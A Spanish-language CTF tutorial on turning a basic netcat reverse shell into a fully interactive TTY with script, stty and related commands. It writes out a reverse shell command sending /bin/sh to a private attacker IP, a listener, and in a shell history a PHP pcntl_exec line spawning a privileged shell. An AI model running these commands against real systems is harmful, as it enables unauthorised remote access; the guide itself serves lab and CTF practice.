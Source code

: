 ```yaml
---
title: "Domina el TTY: Tu Guía para Explotar Shells Durante CTFs"
date: 2024-06-12 19:00:00 +0200
categories: [CTF, Tutoriales]
tags: [tty, shell, reverse-shell, Tutoriales]
---
```


¡Bienvenidos a nuestro tutorial sobre TTY en contextos de CTF! ¿Alguna vez hemos logrado acceder a una shell durante un CTF y nos hemos encontrado con que es casi inutilizable? Aquí vamos a mostrar cómo podemos mejorar nuestra experiencia y hacer nuestra shell mucho más interactiva y funcional.

## ¿Qué es el TTY y por qué es importante?

El TTY (abreviatura de teletypewriter) se refiere a la terminal en la que interactuamos con nuestro sistema. Cuando explotamos una vulnerabilidad y obtenemos acceso a una shell, a menudo es básica y limitada. Mejorar esta shell con un tratamiento adecuado de TTY puede transformar nuestra experiencia, permitiéndonos interactuar con el sistema objetivo como si estuviéramos trabajando directamente desde su consola.

## Ejemplo sin TTY: Reverse shell Básica

Supongamos que hemos lanzado una reverse shell con este comando desde la máquina objetivo:

```bash
nc -e /bin/sh 192.168.1.100 5555
```

Y nuestra máquina atacante está escuchando con:

```bash
nc -lvnp 5555
```

Una vez que la conexión se establece, aquí está lo que enfrentamos:


### No hay autocompletado: Al presionar Tab para completar comandos o nombres de archivos simplemente no funciona. Ejemplo:
```bash
cd /sys/ker	    aa
```
### No podemos limpiar la pantalla: Los comandos como clear no funcionan, dejando la sesión visualmente desordenada. Ejemplo:
```bash
clear
TERM environment variable not set.
```

### Control de señales deficiente: Intentar detener un proceso con Ctrl+C cerrará la shell. Ejemplo:

```bash

lrwxrwxrwx   1 root root     7 jun  6 09:10 bin -> usr/bin
drwxr-xr-x   3 root root  4096 jun  6 09:14 boot
drwxr-xr-x  17 root root  3260 jun 12 20:13 dev
drwxr-xr-x  76 root root  4096 jun 12 20:53 etc
drwxr-xr-x   3 root root  4096 jun  6 10:42 home
lrwxrwxrwx   1 root root    30 jun  6 09:12 initrd.img -> boot/initrd.img-6.1.0-21-amd64
lrwxrwxrwx   1 root root    30 jun  6 09:11 initrd.img.old -> boot/initrd.img-6.1.0-18-amd64
lrwxrwxrwx   1 root root     7 jun  6 09:10 lib -> usr/lib
lrwxrwxrwx   1 root root     9 jun  6 09:10 lib64 -> usr/lib64
drwx------   2 root root 16384 jun  6 09:10 lost+found
drwxr-xr-x   3 root root  4096 jun  6 09:10 media
drwxr-xr-x   2 root root  4096 jun  6 09:10 mnt
drwxr-xr-x   3 root root  4096 jun  6 11:05 opt
dr-xr-xr-x 229 root root     0 jun 12 20:12 proc
drwx------   4 root root  4096 jun  6 11:31 root
drwxr-xr-x  19 root root   620 jun 12 20:13 run
lrwxrwxrwx   1 root root     8 jun  6 09:10 sbin -> usr/sbin
drwxr-xr-x   3 root root  4096 jun  6 10:28 srv
dr-xr-xr-x  13 root root     0 jun 12 20:12 sys
drwxrwxrwt  10 root root  4096 jun 12 20:39 tmp
drwxr-xr-x  12 root root  4096 jun  6 09:10 usr
drwxr-xr-x  12 root root  4096 jun  6 09:19 var
lrwxrwxrwx   1 root root    27 jun  6 09:12 vmlinuz -> boot/vmlinuz-6.1.0-21-amd64
lrwxrwx: not foundt root    27 jun  6 09:11 vmlinuz.old -> boot/vmlinuz-6.1.0-18-amd64
^[[A^[[A
sh: 7: 
^C

    ~  ✘ 1  took  42s  
```

### Caracteres extraños al navegar por el historial: Las flechas del teclado generan caracteres como  ^[[A [[2~^[[H ^[[B.  Ejemplo:
```bash
^[[A^[[A^[[B^[[C^[[D^[[C^[[B^[[D^[[C^[[A^[[D^[^[[C^[[A^[[D^[[2~^[[H
```
## Esta situación, aunque funcional, está lejos de ser ideal. En la siguiente sección, vamos a mostrar cómo podemos transformar esta experiencia básica en algo mucho más poderoso.

## Mejorando la Experiencia: Uso de TTY en Reverse shell

Ahora que tenemos una conexión de shell básica, vamos a transformarla en una interfaz completamente interactiva. Aquí te mostramos cómo podemos lograr una experiencia de shell completa, utilizando el método script para simular un TTY:

### Asegurar una conexión básica: 
Nos aseguramos de que tenemos una shell básica corriendo como la que hemos establecido previamente con Netcat.

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
###  Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos 
```bash
Control+Z 
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local: 
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```
### Configura el tipo de terminal:

```bash
xterm
export TERM=xterm
export SHELL=bash
```
### Ajustar dimensiones del terminal
Ajustamos las dimensiones de la terminal para mostrar la información correctamente:
```bash
stty rows 52 columns 187
``` 
## Confirmamos que ahora si tenemos una Shell lista para trabajar!

Dimensiones en VI
 <img src="/img/posts/TTY.png" alt="Dimensiones VI">


control + C , no salimos de la Shell
```bash

jenkins@find-me:~$ ^C
jenkins@find-me:~$ ^C
jenkins@find-me:~$ ^C
jenkins@find-me:~$ ^C
jenkins@find-me:~$ ^C
jenkins@find-me:~$ ^C
```
Podemos visualizar history
```bash
  13  /usr/bin/php8.2 -r "pcntl_exec('/bin/sh', ['-p']);"
   14  exit
   15  reset
   16  export TERM=xterm
   17  export SHELL=bash
   18  stty rows 52 columns 187
   19  vi
   20  clear
   21  history 
jenkins@find-me:~$ history 
```

<br>

Espero que os haya gustado esta guía y que os sea útil para mejorar vuestras habilidades en futuros CTFs. Seguid explorando y ajustando estos métodos según vuestras necesidades. Nos vemos pronto con más contenido que esperamos os ayude a seguir creciendo en este emocionante campo. ¡Hasta la próxima!